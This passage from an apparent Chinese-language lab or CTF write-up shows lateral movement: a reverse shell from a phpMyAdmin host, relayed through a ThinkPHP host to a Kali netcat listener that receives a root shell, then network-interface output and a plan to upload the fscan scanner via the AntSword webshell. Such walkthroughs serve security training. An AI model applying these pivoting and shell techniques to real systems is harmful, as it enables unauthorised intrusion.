 然后执行反弹 shell（反弹到 Thinkphp - 10.85.101.3）

- phpMyAdmin(10.85.101.4) --Reverse Shell--> Thinkphp(10.85.101.3 & 192.168.100.2):8888
- Thinkphp(10.85.101.3 & 192.168.100.2):8888 --Port Forawrd--> Kali(192.168.200.129):8888

![img](img/image_20240744-134414.png)

成功收到反弹的 shell

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59516
whoami
root
```

## phpMyAdmin 内网扫描

查看网卡信息

```bash
da2bf9a19d9a:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:0A:55:65:04
          inet addr:10.85.101.4  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3001 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3083 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:30269681 (28.8 MiB)  TX bytes:11652578 (11.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:AC:38:66:04
          inet addr:172.56.102.4  Bcast:172.56.102.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3395 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1164483 (1.1 MiB)  TX bytes:2514596 (2.3 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6392 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6392 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:42846495 (40.8 MiB)  TX bytes:42846495 (40.8 MiB)
```

发现一个新的 `172.56.102.0/24` 网段

借助蚁剑，上传 `fscan` 之后进行扫描
